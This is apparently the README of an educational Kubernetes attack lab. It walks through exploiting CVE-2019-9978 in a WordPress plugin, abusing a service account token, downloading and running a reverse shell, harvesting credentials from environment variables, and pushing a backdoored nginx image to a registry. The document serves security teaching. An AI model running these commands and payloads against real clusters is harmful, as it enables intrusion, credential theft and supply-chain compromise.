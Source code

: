 # Disclaimer
* This Lab made for educational purposes
* We do not encourage anyone to weaponize the lab

# What Is it?
This repository contains an automatically deployed lab for demonstrating attacker capabilities in a kubernetes cluster.

# What you need?
- docker
- kubernetes (via kubeadm on you machine)

# How make it works?

## 1. Up Kubernetes cluster via kubeadm
You can use any guide from the Internet for your system.

## 2. Clone miraclekubernetes repository
```sh
git clone https://github.com/4RAYS-by-SOLAR/kubernetesMiracle.git
```

## 3. Execute laboratory-up.sh
This is up all need services\pods\deployments\rbac e.t.c for this lab
```sh
sudo sh laboratory-up.sh
```

## 4. When you done with lab, clear your cluster
This script deletes all kubernetes resources that were created in step 3
```sh
sudo sh laboratory-down.sh
```

# Laboratory diagram
On this diagram you can see map of the lab **Kubernetes Miracle**
![Scheme](./pictures/LabScheme.png)

# Default Attack Scenario

### 1. Init Access on the Wordpress Pod via CVE-2019-9978
In our WordPress application we have the social-warfare plugin installed.
This plugin is vulnerable to CVE-2019-9978 through which RCE can be implemented

1. Up our http server with payloads 
```sh
cd payloads
python3 -m http.server 8080
```

2. Use podlist.php payload to list all pods in default namespace (we can do it cause have service account token with list pods RBAC righs (SA - wordpressowner))
```sh
http://{wordpresspodip\serviceip}/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://10.244.0.1:8080/cvewordpress/podlist.php
```
![PodList](./pictures/podlist.png)

We can find mysql pod in our namespace. Let's try to execute the command in it

### 2. Execute command use a misconfiguration of RBAC

1. So, We don't have a shell in wordpress pod. Using whoami we understand that we are working under www-data and we don't have enough rights to execute, but we can read the service account token and try to execute the command in mysql pod using it.
\
\
Try Using Curl for It (Payload in whoami.php)
```sh
curl -k   --http1.1   -H "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ=="   -H "Sec-WebSocket-Version: 13"   -i -N   -H "Connection: Upgrade"   -H "Upgrade: websocket"   -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"   "https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-cvzfh/exec?command=whoami&container=mysql&stdin=true&stdout=true&stderr=true"

```
![Whoami](./pictures/whoami.png)

2. Download revshell on mysql pod:
```sh
curl -k   --http1.1   -H \"Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==\"   -H \"Sec-WebSocket-Version: 13\"   -i -N   -H \"Connection: Upgrade\"   -H \"Upgrade: websocket\"   -H \"Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)\"   \"https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-pbx2f/exec?command=curl&command=-O&command=http://10.244.0.1:8080/revshell/revshell.sh&container=mysql&stdin=true&stdout=true&stderr=true\"
```
![DownloadRevShell](./pictures/revshelldownload.png)
![revshellplacement](./pictures/revshellplacement.png)

3. Activate revshell

Start listening:
```sh
root@master-node:/home/user# nc -lnvp 6666
Listening on 0.0.0.0 6666
```

Get Shell:
![activateshell](./pictures/revshellactivate.png)

4. Recon in mysql pod and find the login and password for database (it is the same as the registry)
\
Use ENV and search output:
```sh
bash-5.1# env
env
HOSTNAME=wordpress-mysql-5dcfb54f74-pbx2f
DOCKER_REGISTRY_PORT_5000_TCP_PORT=5000
MYSQL_ROOT_PASSWORD=123
DOCKER_REGISTRY_PORT_5000_TCP=tcp://10.100.123.183:5000
DOCKER_REGISTRY_PORT=tcp://10.100.123.183:5000
```

### 3. Hijacking nginx image in docker registry
1. List all images in registry
![listimages](./pictures/imageslist.png)
![nginxfound](./pictures/findnginximage.png)

2. So, We found an image nginx, but we don't see such a pod in the list of pods.
\
We can assume that it is in a different namespace. In this case, to be able to execute code in nginx, you need to hijack the container image on the basis of which it is created.

3. Let's build an image based on the basic nginx, but add revshell there with activation when starting the pod
```sh
Dockerfile
FROM nginx:latest

COPY ./revshell.sh /
RUN chmod 777 /revshell.sh

ENTRYPOINT ["/revshell.sh"]
```
\
```sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# ls
Dockerfile  revshell.sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
nginx        latest    4cad75abc83d   2 months ago   192MB
registry     2.6.2     10b45af23ff3   5 years ago    28.5MB
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker build -t docker-registry:5000/nginx:v1 .
[+] Building 0.2s (8/8) FINISHED                                                                                                  docker:default
 => [internal] load build definition from Dockerfile                                                                                        0.0s
 => => transferring dockerfile: 132B                                                                                                        0.0s
 => [internal] load metadata for docker.io/library/nginx:latest                                                                             0.0s
 => [internal] load .dockerignore                                                                                                           0.0s
 => => transferring context: 2B                                                                                                             0.0s
 => [internal] load build context                                                                                                           0.0s
 => => transferring context: 32B                                                                                                            0.0s
 => [1/3] FROM docker.io/library/nginx:latest                                                                                               0.0s
 => CACHED [2/3] COPY ./revshell.sh /                                                                                                       0.0s
 => CACHED [3/3] RUN chmod 777 /revshell.sh                                                                                                 0.0s
 => exporting to image                                                                                                                      0.0s
 => => exporting layers                                                                                                                     0.0s
 => => writing image sha256:b57dcc8bfea120cb3d4705a8a6c280100b43d93ca1e9ce76fb841cbabffd2309                                                0.0s
 => => naming to docker-registry:5000/nginx:v1                                                                                              0.0s
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker push docker-registry:5000/nginx:v1
The push refers to repository [docker-registry:5000/nginx]
c68502e667c2: Pushed 
c8acd88f1e63: Pushed 
eda01226259d: Layer already exists 
fd2315f0cf24: Layer already exists 
ae2a14e88adb: Layer already exists 
27f473333e2f: Layer already exists 
d8d396eadc9a: Layer already exists 
c1a9699c6559: Layer already exists 
ea680fbff095: Layer already exists 
v1: digest: sha256:47024db27b2d6eb27e44bd95a249c2673a4bf7fa2b458cb5339d9f7dbc9ab377 size: 2192
```

As we can see, two layers were added to the image
This is exactly our revshell

4. We wait until the pod is restarted, then our revshell will be activated. \
As part of the lab, you can restart it yourself
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl delete pod nginx -n outsideserver
pod "nginx" deleted
```

5. After restart nginx we get shell and see, that root filesystem is mount on nginx.
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl apply -f podforbackdoorregistry.yaml 
namespace/outsideserver unchanged
pod/nginx created
```

```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.244.0.178 45354
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@nginx:/# cat /etc/hostname
cat /etc/hostname
nginx
```

### 4. We make an impact

In this part you have access to the node and can do whatever comes into your head.
For example:
* Static Pods
* kubetcd (invisible pod creation)
* /var/log mount pod
* coredns poison
* cronjobs creation
* Cluster admin binding

Hooray!!!
